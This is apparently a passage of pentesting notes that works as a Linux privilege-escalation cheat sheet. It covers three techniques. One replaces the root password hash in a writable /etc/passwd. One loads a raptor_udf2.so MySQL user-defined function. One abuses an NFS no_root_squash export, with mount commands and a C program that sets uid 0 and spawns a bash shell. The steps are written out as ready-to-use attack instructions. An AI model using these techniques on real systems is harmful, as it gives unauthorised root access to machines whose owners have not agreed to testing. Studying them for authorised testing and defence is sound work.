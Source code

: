 ### Writable /etc/passwd

Replace root password hash
1. Kali: generate a password `openssl passwd hacker123` and obtain a password hash.
2. Target: replace root password `x` in `/etc/passwd` file with password hash i.e. `root:<has>:0:0:----`


### MySQL User-Defined-Functions (UDF)

Mysql UDF privilege escalation.
* https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf
* https://steflan-security.com/linux-privilege-escalation-exploiting-user-defined-functions/

If you get the below error, simply replace `/usr/lib/mysql/plugin/raptor_udf2.so` with the `raptor_udf2.so` file you created originally.
```
mysql> create function do_system returns integer soname ’raptor_udf2.so’ ;
ERROR 1126 (HY000) : Can’t open shared library ’raptor_udf2.so’ (errno : 0 /usr/lib/mysql/plugin/raptor_udf2.so : file too short)
```

If you cannot execute commands interactively, exec interactively by:
* `mysql -u root -p[password] mysql -e "[mysql_command]"`


### NFS 'NO_ROOT_SQUASH' Misconfiguration

Exploit NFS shares for privesc.

Discover vulnerability with `cat /etc/exports` and see if a directory is configured as `NO_ROOT_SQUASH`.
* You can access it from as a client and write inside that directory as if you were the local root of the machine.
* See https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe.

Mount misconfigured directory
```
$ showmount -e 192.168.xx.53
Export list for 192.168.xx.53:
/shared 192.168.xx.0/255.255.255.0
$ mkdir /tmp/mymount
/bin/mkdir: created directory '/tmp/mymount'
$ mount -t nfs 192.168.xx.53:/shared /tmp/mymount -o nolock
```

Create payload
```
# generic C exploit
#include <stdio.h>
#include <unistd.h>
int main(void)
{
setuid(0);
setgid(0);
system("/bin/bash");
}
gcc exploit.c -m32 -o exploit
```
